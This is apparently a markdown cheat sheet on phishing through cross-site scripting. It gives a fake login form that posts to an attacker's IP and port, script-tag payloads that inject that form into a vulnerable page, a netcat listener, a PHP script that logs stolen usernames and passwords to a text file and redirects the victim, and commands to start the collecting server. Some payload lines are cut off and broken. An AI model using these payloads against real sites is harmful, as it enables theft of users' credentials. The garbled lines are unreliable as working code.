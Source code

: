 # Phishing attack using XSS
***
### Form to exfiltrate credentials, by sending them to our server
```HTML
<div>
<h2>Login to access your information</h2>
<form action=http://IP:PORT>
    <input type="username" name="username" required>
    <input type="password" name="password" required>
    <input type="submit" value="Login">
</form>
</div>
```
```HTML
<div>
<h3>Login to continue</h3>
<input type="text" placeholder="Username">
<input type="text" placeholder="Password">
<input type="submit" value="Login">
<br><br>
</div>
```

### XSS Payload
```HTML
<script>document.write("<div><h2>Login to access your information</h2><form action=http:<input type="username" name="username" required><input type="password" name="password" required><input type="submit" value="Login"></form></div>")</script>
```
### Cleaning Up

```HTML
<script>document.write("<div><h2>Login to access your information</h2><form action=http:<input type="username" name="username" required><input type="password" name="password" required><input type="submit" value="Login"></form></div>");document.getElementById("url")</script>
```

### Commenting the code after the injected one
```HTML
<script>...PAYLOAD... <!--</script>
```

### Setting up the listening server to receive the credentials
####

```BASH
$ nc -lvnp 80
```

### PHP script to store the credentials on a txt file and redirects user to the original page
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/index.php");
    fclose($file);
    exit();
}
?>
```

### Using a PHP listening server instead of netcat
```BASH
$ mkdir /tmp/tmpsrogue
$ cd /tmp/tmpsrogue
$ vi index.php #write our index.php file
$ sudo php -S 0.0.0.0:80
$ PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```